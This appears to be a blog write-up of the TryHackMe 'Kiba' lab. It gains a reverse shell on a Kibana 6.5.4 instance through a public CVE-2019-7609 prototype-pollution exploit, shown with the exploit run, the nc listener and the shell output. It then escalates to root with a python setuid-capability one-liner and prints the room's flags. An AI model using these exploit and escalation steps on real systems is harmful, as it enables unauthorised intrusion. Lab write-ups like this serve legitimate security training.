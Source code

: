 ```yaml
---
layout: post
title: "THM - Kiba"
date: 2022-02-18  
categories: [Tryhackme, THM-linux]
tags: [kiba, elastic, prototype pollution, CVE-2019-7609]
image: https://github.com/sh3bu/sh3bu.github.io/assets/67383098/d56c1402-f735-4d9b-a9c3-4351611433ef
 
---
```


**Kiba** is a easy rated room from tryhackme where we exploit a prototype pollution vulnerability to gain a user shell  & then escalate our privileges to root by exploiting a python3 binary which has setuid capabilities.

![image](https://github.com/sh3bu/sh3bu.github.io/assets/67383098/d56c1402-f735-4d9b-a9c3-4351611433ef)

|  **Room** 	| Kiba                                          	|
|:--------------:	|----------------------------------------------------	|
|     **OS**     	| Linux                                              	|
| **Difficulty** 	| Easy                                             	|
|  **Room Link** 	| [https://tryhackme.com/room/kiba](https://tryhackme.com/room/kiba)               	|
|   **Creator**  	| [stuxnet](https://tryhackme.com/p/stuxnet) 	|


## What is the vulnerability that is specific to programming languages with prototype-based inheritance? 

![image](https://github.com/sh3bu/sh3bu.github.io/assets/67383098/698e9f80-fccf-49e8-8e0a-4259426abb89)

> Vulnerability - Prototype Pollution

## What is the version of visualization dashboard installed in the server?

Go to **Management tab** , there we can find the version of kiba that is running.

![image](https://github.com/sh3bu/sh3bu.github.io/assets/67383098/c37a64bd-5b7a-4ac2-af0a-d3fca7ac158d)

> Version - 6.5.4

## What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000 /

A simple google search reveals the **CVE** number.

![image](https://github.com/sh3bu/sh3bu.github.io/assets/67383098/14e1e57c-7956-484d-9518-3964b66eb702)

> CVE ID - CVE-2019-7609

## Compromise the machine and locate user.txt

An python3 exploit for prototype pollution is available on github for  kibana  6.5.4 - https://github.com/LandGrey/CVE-2019-7609

*Run the Exploit*

```bash
amrita22005client@ubuntu:~/kiba$ python3 exploit.py http://10.10.38.106:5601 10.17.45.3 4444
/home/amrita22005client/kiba/exploit.py:15: DeprecationWarning: The distutils package is deprecated and slated for removal in Python 3.12. Use setuptools or check PEP 632 for potential alternatives
  from distutils.version import StrictVersion
[•] Kibana version identified: 6.5.4
[✓] Version is vulnerable
[✓] Target seems vulnerable
[✓] Exploit completed
[➜] Check your listener on 10.17.45.3:4444
``

```
shebu@ubuntu:~/kiba$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.38.106 48624
bash: cannot set terminal process group (945): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ id
id
uid=1000(kiba) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

We get our reverse shell

```bash
shebut@ubuntu:~/kiba$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.38.106 48624
bash: cannot set terminal process group (945): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ id
id
uid=1000(kiba) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
kiba@ubuntu:/home/kiba/kibana/bin$ cd ~
cd ~
kiba@ubuntu:/home/kiba$ cat user.txt
cat user.txt
THM{1s_*********_rce}
```

**Capabilities is a concept that provides a security system that allows "divide" root privileges into different values**

## How would you recursively list all of these capabilities?

Command to list all capabilities - `getcap -r /`

```bash
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2>/dev/null

/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```
Straightaway we can see that python3 has a suspicious path.

We can go to [GTFOBINS](https://gtfobins.github.io/gtfobins/python/#capabilities) to exploit the python binary which has setuid capabilities by runing the command `python -c 'import os; os.setuid(0); os.system("/bin/sh")'`

```bash 
# id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)

# cat /root/root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
```
Now we have our root shell & our root flag.



